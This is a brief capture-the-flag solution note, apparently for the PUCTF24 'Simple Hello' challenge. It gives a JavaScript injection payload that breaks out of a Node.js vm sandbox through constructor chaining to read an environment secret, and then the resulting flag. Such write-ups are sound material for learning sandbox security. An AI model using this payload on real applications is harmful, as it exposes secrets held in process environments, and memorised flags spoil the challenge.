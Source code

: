 ## Simple Hello

payload: "; nickname = this.constructor.constructor.constructor('return this.process.env.FLAG')(); "

PUCTF24{n0d3js_vm_1s_n07_s3cur3_cdd9e68f1bfb49641e59a798abec1181}